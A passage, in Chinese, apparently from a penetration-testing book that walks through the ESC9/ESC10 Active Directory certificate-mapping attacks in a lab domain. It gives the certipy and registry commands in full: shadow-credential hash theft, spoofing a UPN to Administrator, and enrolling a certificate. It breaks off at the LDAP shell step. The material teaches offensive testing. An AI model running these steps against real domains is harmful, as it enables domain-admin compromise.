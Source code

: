 ```
certutil -dstemplate ESC9 msPKI-Enrollment-Flag -0x00080000
```

### ESC10 - 弱证书映射

这种攻击技术有两种情况 - 当`StrongCertificateBindingEnforcement`设置为`0`或`CertificateMappingMethods`包含值`0x4`时。简单来说，这意味着证书的 SAN 优先于新的安全扩展。仍然必须满足关于具有客户端认证 EKU 和`GenericWrite`权限的模板的要求。第一种情况与 ESC9 攻击相同，但可以使用任何证书模板。第二种情况针对机器帐户和默认域管理员，因为它们没有 UPN 属性。我们的目标是妥协域管理员。再次，我们将使用`khal.drogo`具有`viserys.targaryen`上的`GenericAll`权限：

1.  为确保我们正确准备实验室，运行以下命令：

    ```
    reg query HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\Schannel /v CertificateMappingMethods
    ```

    输出应该如下截图所示：

![图 8.26 - CertificateMappingMethod 值为 0x4，允许 ESC10 攻击](img/B18964_08_26.jpg)

图 8.26 - CertificateMappingMethod 值为 0x4，允许 ESC10 攻击

1.  检索`viserys.targaryen`的 NT 哈希：

    ```
    certipy shadow auto -u 'khal.drogo@essos.local' -p 'horse' -account viserys.targaryen
    ```

1.  将`viserys.targaryen`的 UPN 更新为`Administrator@essos.local`：

    ```
    certipy account update -username 'khal.drogo@essos.local' -p 'horse' -user viserys.targaryen -upn 'Administrator@essos.local'
    ```

1.  注册任何允许客户端认证的证书模板：

    ```
    certipy req -username 'viserys.targaryen@essos.local' -hash 'd96a55df6bef5e0b4d6d956088036097' -target 192.168.56.23 -ca 'ESSOS-CA' -template User
    ```

1.  将`viserys.targaryen`的 UPN 更改回原始状态：

    ```
    certipy account update -username 'khal.drogo@essos.local' -p 'horse' -user viserys.targaryen -upn viserys.targaryen@essos.local
    ```

1.  通过 Schannel 获取 LDAP shell：

